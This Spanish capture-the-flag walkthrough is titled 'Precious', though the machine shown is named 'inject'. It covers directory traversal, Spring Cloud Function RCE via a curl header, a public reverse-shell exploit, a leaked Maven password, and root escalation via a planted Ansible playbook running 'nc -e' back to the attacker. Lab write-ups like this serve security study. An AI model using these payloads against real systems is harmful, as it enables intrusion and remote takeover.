


# Precious


## Bandera user.txt
---

Realizamos un escaneo con nmap para inspeccionar los puertos abiertos

```
# Nmap 7.93 scan initiated Mon May  1 01:32:07 2023 as: nmap -sC -T5 -Pn -n -oN scan.nmap 10.10.11.204
Nmap scan report for 10.10.11.204
Host is up (0.090s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  http-proxy
|_http-title: Home

# Nmap done at Mon May  1 01:32:12 2023 -- 1 IP address (1 host up) scanned in 4.97 seconds

```

La maquina que escaneamos anteriormente posee 2 puertos abiertos, entre ellos el puerto 8080 el cual al acceder desde un navegador web nos muestra una pagina. En la barra de navegacion de la pagina se encuentra una opcion (UPLOAD) interesante para subir archivos. Al acceder a la opcion Upload nos aparece lo siguiente.



Al subir una imagen aparecera que la imagen ha sido subida seguido de un enlace a la direccion donde se encuentra dicha imagen.


En la URL encontramos un parametro llamado img=... al inspeccionarlo con BurpSuite se puede comprobar que es vulnerable a un ataque de travesia de directorios (Traversal Attack). Ahora podemos investigar archivos y directorios del sistema para hacer un mejor reconocimiento.



Al revisar el contenido de /var/www/ se encontro un proyecto en Maven por lo que se debe revisar el archivo pom.xml en el cual se encuentra la configuracion principal de Maven. En dicho archivo se define la estructura del proyecto, las dependencias y los plugins utilizados por el proyecto.
```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

Al inspeccionar el archivo pom.xml se observa que se esta ejecutando la version 2.6.5 de Spring Boot, Java version 11, javax.activation 1.2.0, spring-cloud-function-web 3.2.2, etc. Una busqueda posterior con la informacion anteriormente mencionada revela que la version 2.6.5 de Spring Boot es vulnerable a RCE (Spring4Shell). Esto se puede comprobar con un PoC.
```
# terminal 1
$ nc -lvnp 1234
listening on [any] 1234 ...

# terminal 2
$ curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc <our_ip_address> 1234")' --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("nc <our_ip_address> 1234")
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 500 
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Wed, 03 May 2023 19:04:02 GMT
< Connection: close
< 
* Closing connection 0
{"timestamp":"2023-05-03T19:04:02.360+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"} 

# terminal 1
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [our_ip_address] from (UNKNOWN) [10.10.11.204] 34004
```

Para obtener una SHELL se uso el script del usuario J0ey17 https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit

```
$ python3 exploit.py -u http://10.10.11.204:8080/functionRouter
[+] Target http://10.10.11.204:8080/functionRouter

[+] Checking if http://10.10.11.204:8080/functionRouter is vulnerable to CVE-2022-22963...

[+] http://10.10.11.204:8080/functionRouter is vulnerable

[/] Attempt to take a reverse shell? [y/n]y
listening on [any] 4444 ...
[$$] Attacker IP:  10.10.14.10
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.204] 53328
bash: cannot set terminal process group (793): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ whoami
whoami
frank
frank@inject:/$ 
```

Ahora para obtener una sesion interactiva, se debe genrerar las llaves SSH y pegar nuestro id_rsa.pub en la ruta /home/frank/.ssh/authorized_keys para posteriormente iniciar una sesion de SSH.

Cuando iniciemos la sesion SSH como el usuario frank, solo debemos leer el archivo /home/frank/.m2/settings.xml para obtener la contrasena del usuario phil 

```
frank@inject:~$ cat .m2/settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
frank@inject:~$ su phil
Password: 
phil@inject:/home/frank$ 
```

Ahora solo leemos la bandera user.txt

```
phil@inject:/home/frank$ cd
phil@inject:~$ cat user.txt 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## Bandera root.txt
---

Una vez tengamos la sesion SSH procedemos a inspeccionar los procesos con la herramienta enumerate-process.sh del repositorio https://github.com/mind2hex/pendrive_tools/tree/main/Linux/enumeration

Para pasar el script a la maquina que estamos atacando se va a usar nc

```
# nuestr maquina
$ scp pendrive_tools/Linux/enumeration/enumerate-process.sh frank@10.10.11.204:/home/frank/script.sh
enumerate-process.sh                                         100%   11KB 123.7KB/s   00:00 

# maquina objetivo
phil@inject:~$ cp /home/frank/script.sh ./ && chmod u+x script.sh
```

Ahora hay que ejecutar el script para monitorear los procesos durante un tiempo

```
phil@inject:~$ bash script.sh -u root --interval 0.5 -l log

      dMMMMb  dMMMMb  .aMMMb  .aMMMb  dMMMMMP .dMMMb  .dMMMb 
   dMP.dMP dMP.dMP dMP"dMP dMP"VMP dMP     dMP" VP dMP" VP  
  dMMMMP" dMMMMK" dMP dMP dMP     dMMMP    VMMMb   VMMMb    
 dMP     dMP"AMF dMP.aMP dMP.aMP dMP     dP .dMP dP .dMP    
dMP     dMP dMP  VMMMP"  VMMMP" dMMMMMP  VMMMP"  VMMMP"     
                                                             
    dMMMMMMMMb .aMMMb  dMMMMb  dMP dMMMMMMP .aMMMb  dMMMMb  
   dMP"dMP"dMPdMP"dMP dMP dMP amr    dMP   dMP"dMP dMP.dMP  
  dMP dMP dMPdMP dMP dMP dMP dMP    dMP   dMP dMP dMMMMK"   
 dMP dMP dMPdMP.aMP dMP dMP dMP    dMP   dMP.aMP dMP"AMF    
dMP dMP dMP VMMMP" dMP dMP dMP    dMP    VMMMP" dMP dMP     

Version: [v1.00]
Author:  mind2hex
==== Filters ============ # === Configurations ======
[1]        user: root     # [1] interval: 0.5     
[2]         PID: ALL      # [2]      log: log     
[3] exclude-sys: FALSE    #         
[4] exclude-pro: FALSE    #         
========================= # =========================
[!] Press CTRL-C to stop the program 

==========================================================
USERSPEC   PID        CMD                                               
==========================================================
...
root       2037150    .0:00./bin/sh.-c.sleep.10.&&./usr/bin/rm.-rf./opt/automation/tasks/*.&&./usr/bin/cp./root/playbook_1.yml./opt/automation/tasks/
root       2037153    .0:00.sleep.10                                    
root       2094239    .0:00./usr/sbin/CRON.-f                           
root       2094240    .0:00./usr/sbin/CRON.-f                           
root       2094245    .0:00./bin/sh.-c.sleep.10.&&./usr/bin/rm.-rf./opt/automation/tasks/*.&&./usr/bin/cp./root/playbook_1.yml./opt/automation/tasks/
root       2094246    .0:00./bin/sh.-c./usr/local/bin/ansible-parallel./opt/automation/tasks/*.yml
root       2094248    .0:00.sleep.10                                    
root       2094253    .0:00./usr/bin/python3./usr/local/bin/ansible-parallel./opt/automation/tasks/playbook_1.yml
root       2094349    .0:02./usr/bin/python3./usr/bin/ansible-playbook./opt/automation/tasks/playbook_1.yml
root       2095028    .0:00./usr/bin/python3./usr/bin/ansible-playbook./opt/automation/tasks/playbook_1.yml

```

Cada 10 segundos se ejecutan una serie de instrucciones, entre dichas instrucciones encontramos la siguiente: /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml

Ansible-parallel es una herramienta que se ejecuta en Python yque permite a los usuarios ejecutar tareas de Ansible de forma paralela por lo tanto si se logra crear un archivo .yml en la ruta /opt/automation/tasks/ para que genere una reverse shell entonces se podra realizar una escalacion de privilegios.

Teniendo la informacion anterior en cuenta, debemos crear el archivo .yml con el payload correcto para generar un reverse shell aunque primero se debe obtener una copia de nc que permita ejecutar una shell, ya que la version de nc que se tiene en la maquina inject por defecto no cumple con los requisitos.

Para obtener una copia de nc usamos el siguiente archivo del repositorio static-binaries https://github.com/yunchih/static-binaries/blob/master/nc

```
# nuestra maquina
$ scp nc frank@10.10.11.204:/home/frank/                                          
nc                                                              100%  937KB   1.3MB/s   00:00

# maquina objetivo
phil@inject:~$ cp /home/frank/nc ./
```

Ahora en el archivo payload.yml ponemos el siguiente payload

```
- name: Ejecutar shell en el host remoto
  hosts: localhost
  gather_facts: no
  tasks:
  - name: Ejecutar shell en el host remoto
    shell: /home/phil/nc -e /usr/bin/sh <nuestra_ip> 1234
```

Por ultimo copiamos el archivo payload.yml en /opt/automation/tasks/ y esperamos unos segundos a que se ejecute el payload.yml

```
# nuestra maquina 
$ nc -lvnp 1234
listening on [any] 1234 ...

# maquina objetivo
phil@inject:~$ cp payload.yml /opt/automation/tasks/

# nuestra maquina
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.204] 56174
sh: turning off NDELAY mode
whoami
root
cat /root/root.txt
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```